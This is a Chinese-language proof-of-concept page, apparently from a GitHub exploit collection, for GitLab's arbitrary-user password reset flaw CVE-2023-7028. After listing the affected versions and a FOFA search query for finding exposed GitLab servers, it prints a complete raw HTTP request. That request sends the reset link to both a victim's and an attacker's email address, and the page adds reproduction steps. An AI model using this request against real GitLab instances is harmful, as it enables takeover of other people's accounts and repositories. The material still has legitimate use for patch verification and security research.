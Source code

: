 ## GitLab任意用户密码重置漏洞(CVE-2023-7028)

2024年1月11日，Gitlab 官方披露 CVE-2023-7028，GitLab 任意用户密码重置漏洞，官方评级严重。攻击者可利用忘记密码功能，构造恶意请求获取密码重置链接从而重置密码。官方已发布安全更新，建议升级至最新版本，若无法升级，建议利用安全组功能设置 Gitlab 仅对可信地址开放。

1、需获取系统已有用户注册邮箱地址

2、满足影响版本

## 影响版本
```
16.1 <=GitLab CE<16.1.6
16.2 <=GitLab CE<16.2.8
16.3 <=GitLab CE<16.3.6
16.4 <=GitLab CE<16.4.4
16.5 <=GitLab CE<16.5.6
16.6 <=GitLab CE<16.6.4
16.7 <=GitLab CE<16.7.2
16.1 <=GitLab EE<16.1.6
16.2 <=GitLab EE<16.2.8
16.3 <=GitLab EE<16.3.6
16.4 <=GitLab EE<16.4.4
16.5 <=GitLab EE<16.5.6
16.6 <=GitLab EE<16.6.4
16.7 <=GitLab EE<16.7.2
```

## fofa
```
app="GitLab"
```

## poc
```
POST /users/password/ HTTP/1.1
Host: g
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Origin: https://git.ryzoweba.com
Connection: keep-alive
Cookie: _gitlab_session=78331028df93ce92682f77ac91945004; preferred_language=en
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

authenticity_token=Ok6w7Wt0FwKeOCci9ucskZWrjRDDV0kYkwlSOIrGQmmQ2fk5k3vsH-8vM5UIiGn-0tpJ9D78SUb-9AT1TZ8VfA&user%5Bemail%5D=目标邮箱&user[email][]=攻击者邮箱
```

## 漏洞复现
访问找回密码页面：/users/password/new
![2af3cf985729d3808db6273dcc07b84b](https://github.com/wy876/POC/assets/139549762/f48c3792-5d70-4cea-a2f5-1ac3a1e3af6e)

填写被找回邮箱地址，然后点击抓包
![7d63bb3712a59358211cd86b02d52674](https://github.com/wy876/POC/assets/139549762/5fb2529f-50a5-44ce-923a-ad6f7b1eb631)

修改请求包为：user[email][]=目标邮箱地址&user[email][]=攻击者邮箱地址
![f7080e955aa0be982d53c73f2d817696](https://github.com/wy876/POC/assets/139549762/71fb4d67-891b-4388-a059-7b609605ff2b)

![3dd9cf887b37a83c2d1e7290f2e1b78f](https://github.com/wy876/POC/assets/139549762/ba695d81-ae4d-4fc8-b35b-27074a5973d3)


## 漏洞来源
- https://mp.weixin.qq.com/s/fFjOhcjtYh-hYsdYDsCA1Q
- https://mp.weixin.qq.com/s/xtCIo0ybgK2obPVZtKNQEQ
